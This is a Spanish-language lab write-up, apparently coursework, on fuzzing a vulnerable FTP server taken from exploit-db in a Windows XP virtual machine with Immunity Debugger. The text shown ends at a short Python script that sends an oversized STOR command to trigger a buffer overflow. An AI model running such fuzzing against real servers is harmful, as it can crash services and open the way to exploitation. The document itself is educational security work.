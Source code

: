 ```yaml
---
title: Fuzzing & Debbuging
published: false
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#desarrollo">Desarrollo</a>
  - <a href="#Especificaciones_del_laboratorio">Especificaciones del laboratorio</a>
  - <a href="#fuzzing">Fuzzing</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Las aplicaciones sin pruebas de seguridad tienden a tener vulnerabilidades en su código, podría
estar haciendo llamadas a módulos o librerías inseguras. En este entregable se pondrá en práctica lo
aprendido en el curso de Seguridad para aplicaciones móviles, y se utilizara una aplicación desde la
página exploit-db con vulnerabilidad para fuzzing y buffer-overflow.
Cuando existen estas vulnerabilidades prácticamente uno puede tomar control total del dispositivo
que está ejecutando el programa.
El entorno donde trabajaremos es virtual, el dispositivo tiene una arquitectura x86 y un sistema
operativo Windows XP.

## [](#header-2)<a id="desarrollo">Desarrollo</a>
### [](#header-3)<a id="Especificaciones_del_laboratorio">Especificaciones del laboratorio</a>
Se utilizará una máquina virtual con sistema operativo Windows XP de 32 bits y una maquina Kali Linux enlazadas por red y permitiendo el tráfico de datos entre estas.

Para el análisis del software utilizado en la maquina Windows xp, se utilizará la aplicación immunity debbuger, que es un desensamblador de programas y con esto podemos estar monitoreando la ejecución del sistema

-Immunity debugger
<img src="../_posts/images/fuzzing&debbuging/debbug_tools.png" alt="Herramientas de debbuging">

-Programa a utilizar FTPserver, obtenida del link https://www.exploit-db.com/exploits/46763

### [](#header-3)<a id="fuzzing">Fuzzing</a>
El siguiente programa escrito en python, tiene bloques importantes, el que define los caracteres o cadena con la que se hará el testing, el que realiza el envió de la información.

La cadena en este caso será una A multiplicada por 10mil, al ser ejecutado mandará al servidor FTP una cadena de 10mil bytes despues de pasar el usuario y contraseña.

```py
#!/usr/bin/python2

import socket

cadena = 'A' * 10000

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conexion = s.connect(('192.168.100.252',21))
s.recv(1024)
s.send('USER ftp\r\n') #USUARIO
s.recv(1024)
s.send('PASS ftp\r\n') #PASS
s.recv(1024)
s.send('STOR' + cadena + '\r\n')
s.recv(1024)
s.send ('QUIT\r\n')
s.close()
```